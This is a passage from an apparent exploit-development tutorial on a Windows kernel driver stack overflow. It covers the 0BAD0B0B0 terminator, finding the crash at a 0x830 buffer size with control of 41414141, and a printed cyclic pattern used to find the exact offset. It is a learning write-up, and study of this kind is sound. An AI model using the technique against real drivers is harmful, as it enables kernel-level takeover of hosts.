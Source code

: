 So we will pass the length check now for sure, which we saw coming, the **other** really interesting thing that we took note of previously but can see playing out here is that `ebx` has been left undisturbed and is at `0xffffffff` still. This is the register used in the arithmetic to determine whether or not the `Counter` should keep iterating or not. This value is eventually loaded into `eax` and divided by 4!. `0xfffffffff` divided by 4 will likely never cause us to exit the function. We will keep copying bytes from the user buffer to the kernel buffer basically forever now. 

***THIS IS NOT GOOD***

Overwriting arbitrary memory in the kernel space is dangerous business. We can't corrupt anything more than we absolutely have to. We need a way to terminate the copying function. In comes the terminator string of `0BAD0B0B0` to the rescue. If the 4 byte value in the user buffer is `0BAD0B0B0`, we cease copying and exit the function. Obviously we BSOD here. 

So hopefully, we can copy `0x800` bytes, and then start overwriting kernel memory on the stack where we can strategically place a pointer to shellcode. Like I said previously, you don't want a huge overwrite here. I started at `0x800` and worked my way up 4 bytes at a time using a little pattern creating tool I made [here](https://github.com/h0mbre/Windows-Exploits/tree/master/Pattern) until I got a crash. 

Incrementing 4 bytes at a time I finally got a crash with a `0x830` buffer length where the last 4 bytes are `0BAD0B0B0`.

## Getting a Crash
After incrementing methodically from a buffer size of `0x800`, and remember that this includes a 4 byte terminator string or else we'll never stop copying into kernel space and BSOD the host, I finally got an exception that tried to execute code at `41414141` with a total buffer size of `0x830`. (I also got an exception when I used a smaller buffer size of `0x82C` but the address referenced was a NULL). In this buffer, I had `0x82C` `\x41` chars and then our terminator. So I figured our offset was going to be at `0x828` or 2088 in decimal, but just to make sure I used my pattern python script to get the exact offset. 
```
root@kali:~# python3 pattern.py -c 2092 -cpp
char pattern[] = 
"0Aa0Ab0Ac0Ad0Ae0Af0Ag0Ah0Ai0Aj0Ak0Al0Am0An0Ao0Ap0Aq0Ar0As0At0Au0Av0Aw0Ax0Ay0Az"
"0A00A10A20A30A40A50A60A70A80A90AA0AB0AC0AD0AE0AF0AG0AH0AI0AJ0AK0AL0AM0AN0AO0AP"
"0AQ0AR0AS0AT0AU0AV0AW0AX0AY0AZ0Ba0Bb0Bc0Bd0Be0Bf0Bg0Bh0Bi0Bj0Bk0Bl0Bm0Bn0Bo0Bp"
"0Bq0Br0Bs0Bt0Bu0Bv0Bw0Bx0By0Bz0B00B10B20B30B40B50B60B70B80B90BA0BB0BC0BD0BE0BF"
"0BG0BH0BI0BJ0BK0BL0BM0BN0BO0BP0BQ0BR0BS0BT0BU0BV0BW0BX0BY0BZ0Ca0Cb0Cc0Cd0Ce0Cf"
"0Cg0Ch0Ci0Cj0Ck0Cl0Cm0Cn0Co0Cp0Cq0Cr0Cs0Ct0Cu0Cv0Cw0Cx0Cy0Cz0C00C10C20C30C40C5"
"0C60C70C80C90CA0CB0CC0CD0CE0CF0CG0CH0CI0CJ0CK0CL0CM0CN0CO0CP0CQ0CR0CS0CT0CU0CV"
"0CW0CX0CY0CZ0Da0Db0Dc0Dd0De0Df0Dg0Dh0Di0Dj0Dk0Dl0Dm0Dn0Do0Dp0Dq0Dr0Ds0Dt0Du0Dv"
"0Dw0Dx0Dy0Dz0D00D10D20D30D40D50D60D70D80D90DA0DB0DC0DD0DE0DF0DG0DH0DI0DJ0DK0DL"
"0DM0DN0DO0DP0DQ0DR0DS0DT0DU0DV0DW0DX0DY0DZ0Ea0Eb0Ec0Ed0Ee0Ef0Eg0Eh0Ei0Ej0Ek0El"
"0Em0En0Eo0Ep0Eq0Er0Es0Et0Eu0Ev0Ew0Ex0Ey0Ez0E00E10E20E30E40E50E60E70E80E90EA0EB"
"0EC0ED0EE0EF0EG0EH0EI0EJ0EK0EL0EM0EN0EO0EP0EQ0ER0ES0ET0EU0EV0EW0EX0EY0EZ0Fa0Fb"
"0Fc0Fd0Fe0Ff0Fg0Fh0Fi0Fj0Fk0Fl0Fm0Fn0Fo0Fp0Fq0Fr0Fs0Ft0Fu0Fv0Fw0Fx0Fy0Fz0F00F1"
"0F20F30F40F50F60F70F80F90FA0FB0FC0FD0FE0FF0FG0FH0FI0FJ0FK0FL0FM0FN0FO0FP0FQ0FR"
"0FS0FT0FU0FV0FW0FX0FY0FZ0Ga0Gb0Gc0Gd0Ge0Gf0Gg0Gh0Gi0Gj0Gk0Gl0Gm0Gn0Go0Gp0Gq0Gr"
"0Gs0Gt0Gu0Gv0Gw0Gx0Gy0Gz0G00G10G20G30G40G50G60G70G80G90GA0GB0GC0GD0GE0GF0GG0GH"
"0GI0GJ0GK0GL0GM0GN0GO0GP0GQ0GR0GS0GT0GU0GV0GW0GX0GY0GZ0Ha0Hb0Hc0Hd0He0Hf0Hg0Hh"
"0Hi0Hj0Hk0Hl0Hm0Hn0Ho0Hp0Hq0Hr0Hs0Ht0Hu0Hv0Hw0Hx0Hy0Hz0H00H10H20H30H40H50H60H7"
"0H80H90HA0HB0HC0HD0HE0HF0HG0HH0HI0HJ0HK0HL0HM0HN0HO0HP0HQ0HR0HS0HT0HU0HV0HW0HX"
"0HY0HZ0Ia0Ib0Ic0Id0Ie0If0Ig0Ih0Ii0Ij0Ik0Il0Im0In0Io0Ip0Iq0Ir0Is0It0Iu0Iv0Iw0Ix"
"0Iy0Iz0I00I10I20I30I40I50I60I70I80I90IA0IB0IC0ID0IE0IF0IG0IH0II0IJ0IK0IL0IM0IN"
"0IO0IP0IQ0IR0IS0IT0IU0IV0IW0IX0IY0IZ0Ja0Jb0Jc0Jd0Je0Jf0Jg0Jh0Ji0Jj0Jk0Jl0Jm0Jn"
"0Jo0Jp0Jq0Jr0Js0Jt0Ju0Jv0Jw0Jx0Jy0Jz0J00J10J20J30J40J50J60J70J80J90JA0JB0JC0JD"
"0JE0JF0JG0JH0JI0JJ0JK0JL0JM0JN0JO0JP0JQ0JR0JS0JT0JU0JV0JW0JX0JY0JZ0Ka0Kb0Kc0Kd"
"0Ke0Kf0Kg0Kh0Ki0Kj0Kk0Kl0Km0Kn0Ko0Kp0Kq0Kr0Ks0Kt0Ku0Kv0Kw0Kx0Ky0Kz0K00K10K20K3"
"0K40K50K60K70K80K90KA0KB0KC0KD0KE0KF0KG0KH0KI0KJ0KK0KL0KM0KN0KO0KP0KQ0KR0KS0KT"
"0KU0KV0KW0KX0KY0KZ0La0Lb0Lc0Ld0Le0Lf0Lg0Lh0Li0Lj0Lk0Ll0Lm0Ln0Lo0";
```
I then added the terminator to the end like so.
```
---SNIP---
```